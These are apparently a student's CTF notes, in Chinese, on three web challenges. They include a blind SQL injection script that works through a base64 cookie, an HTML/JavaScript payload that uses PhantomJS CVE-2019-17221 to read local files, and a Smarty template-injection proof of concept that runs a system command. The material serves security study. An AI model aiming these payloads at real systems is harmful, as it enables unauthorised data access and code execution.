 
## CTF
- [x] web方向题目(java)
### [BSidesCF 2019]Sequel
#sqlite
cookie base64注入
```python
import requests
import base64
import string
import sys

out = ""

while True:
    for letter in string.printable:
        tmp = out + letter

        if letter == 'g': continue

        payload = r'{{"username":"\" OR EXISTS(SELECT username FROM userinfo WHERE username LIKE \"{}\" limit 1) OR \"","password":"guest"}}'.format(tmp + '%')

        payload = base64.b64encode(payload.encode('utf-8')).decode('utf-8')

        r = requests.get('http://3d9e176c-699f-4a70-afca-09d4a1cf6566.node4.buuoj.cn:81/sequels', cookies={"1337_AUTH" : payload})
        if "Movie" in r.text:
            out = tmp
            sys.stdout.write(letter)
            sys.stdout.flush()
            break
```


### [FireshellCTF2020]ScreenShooter
#ssrf
输入url会截图,猜测ssrf
看了一眼,发现和自己猜测一样
***PhantomJS发现存在任意文件上传漏洞CVE-2019-17221***

```html
  
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>
	<script type="text/javascript">
		var karsa;
		karsa = new XMLHttpRequest;
		karsa.onload = function(){
			document.write(this.responseText)
		};
		karsa.open("GET","file:///flag");
		karsa.send();
	</script>
</body>
</html>
```
### [HMGCTF2022]Smarty Calculator
#SSTI 
smarty 3.1.38
poc,但是题目做了一些修改所以不生效
```shell
{function+name='rce(){};system("id");function+'}{/function}
```

```php
if (preg_match('/[a-zA-Z0-9_\x80-\xff](.*)+$/', $_name)) {
            $compiler->trigger_template_error("Function name contains invalid characters: {$_name}", null, true);
        }

```
`.`匹配处换行以外的字符,使用换行绕过

## web3
- [ ] 区块链文章阅读及分析

## SRC
- [ ] SRC文章阅读及分析

## Misc

